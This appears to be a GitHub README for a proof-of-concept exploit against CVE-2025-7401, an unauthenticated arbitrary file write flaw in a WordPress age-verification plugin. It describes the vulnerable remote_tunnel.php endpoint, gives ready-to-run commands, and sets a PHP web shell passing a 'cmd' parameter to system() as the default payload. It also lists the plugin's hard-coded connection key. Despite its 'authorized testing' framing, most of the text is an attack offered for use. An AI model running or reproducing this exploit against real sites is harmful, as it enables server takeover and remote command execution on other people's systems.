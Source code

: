 # CVE-2025-7401
Premium Age Verification / Restriction for WordPress &lt;= 3.0.2 - Unauthenticated Arbitrary File Read and Write
# 🧾 Premium Age Verification / Restriction for WordPress <= 3.0.2 — Unauthenticated Arbitrary File Read & Write

## 📝 Description
The "Premium Age Verification / Restriction for WordPress" plugin contains an insufficiently protected remote support endpoint in `remote_tunnel.php`. In affected versions up to and including 3.0.2, this endpoint can be abused for unauthenticated arbitrary file read and write. Successful exploitation may expose sensitive information or allow remote code execution.

- CVE: CVE-2025-7401  
- CVSS: 9.8 (Critical)

---

## ⚙️ Script Overview
- Script name: `CVE-2025-7401.py`  
- Purpose: A testing tool for authorized security professionals to validate file write behavior in the vulnerable plugin endpoint. The script normalizes the target, encodes a user-supplied PHP snippet, sends a POST to the vulnerable endpoint to attempt writing a file, and optionally verifies the web-accessible file path.

---

## ▶️ Quick Usage Examples
```bash
# Basic (uses default connection key and default PHP shell)
python CVE-2025-7401.py -u example.com

# Use HTTPS and custom connection key, skip verification
python CVE-2025-7401.py -u https://target.example -key YOUR_KEY --no-verify

# Custom PHP payload (authorized testing only)
python CVE-2025-7401.py -u target.com -shell '<?= system($_GET["cmd"]); ?>'
```

---

## 🧭 Command-line Options
| Flag | Type | Default | Description |
|---|---:|---|---|
| -u, --url | string | required | Target domain or partial URL. The script will append the plugin endpoint when necessary. Examples: `example.com`, `https://example.com`, `example.com/wp-content/plugins/age-restriction/`. |
| -key, --key | string | `330489965d8266a739442ef890f57805` | Connection key used by the remote support endpoint. Override for lab targets if needed. |
| -shell, --shell | string | `<?= system($_GET["cmd"]); ?>` | PHP snippet to inject as file content. Only change for authorized testing. |
| --no-verify | flag | false | If present, the script will not perform the optional GET verification of the written file. |

---